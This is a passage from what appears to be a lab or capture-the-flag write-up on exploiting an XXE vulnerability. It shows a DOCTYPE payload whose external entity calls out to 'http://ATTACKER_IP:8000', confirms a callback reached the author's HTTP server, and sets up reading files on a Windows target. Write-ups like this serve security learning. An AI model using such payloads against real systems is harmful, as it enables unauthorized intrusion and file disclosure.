 ```
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://ATTACKER_IP:8000'>]>
```

Here's how the modified request looks like:

<img style="float: left;" src="screenshots/screenshot6.png">

Notice how I called the XEE with `&test;` within`<item></item>`.

With a simple Python HTTP server up and running:

<img style="float: left;" src="screenshots/screenshot7.png">

Nice, we can see that the XXE injection worked as we got a call back to my HTTP server!

<br>

After proving that the XXE vulnerability is present, we can try to read some files on the target machine. From **Wappalyzer**, I know that the target machine is running **Windows**, so we'll have to use Windows paths.
